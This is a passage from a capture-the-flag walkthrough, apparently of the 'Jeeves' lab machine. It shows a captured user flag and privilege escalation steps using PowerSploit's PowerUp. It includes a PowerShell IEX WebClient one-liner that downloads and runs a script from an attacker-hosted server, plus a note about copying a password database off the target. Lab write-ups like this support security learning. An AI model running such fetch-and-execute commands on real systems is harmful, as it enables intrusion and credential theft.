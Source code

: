 ### User flag
```bash
e3232272596fb47950d59c4cf1e7066a
```
### PrivEsc
I looked for ways to find how to get a privillage escalation. Downloaded the `powersploit1` github repo the `dev` branch with the `-b` option

```bash
git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
```
copy the PowerUp.ps1 from the `privesc`  Directory and set a http server then download it to the target.

```bash
# Setting the python3 sampleHttpServer
python3 -m http.server 8000

## Copy the PowerUp.ps1 to the target machine with the already user access using the IEX WebClient
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.16:8000/PowerUp.ps1')
```
After run the Command at the bottom of the script `Invokde-AllChecks`
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_5.png)

In the user `kohsuke` Documents directory I found a database passkey file that I can copy to my attack machine and work with it.
![](../../Assets/walktrhough-assets/jeeves/2025-02-09_6.png)
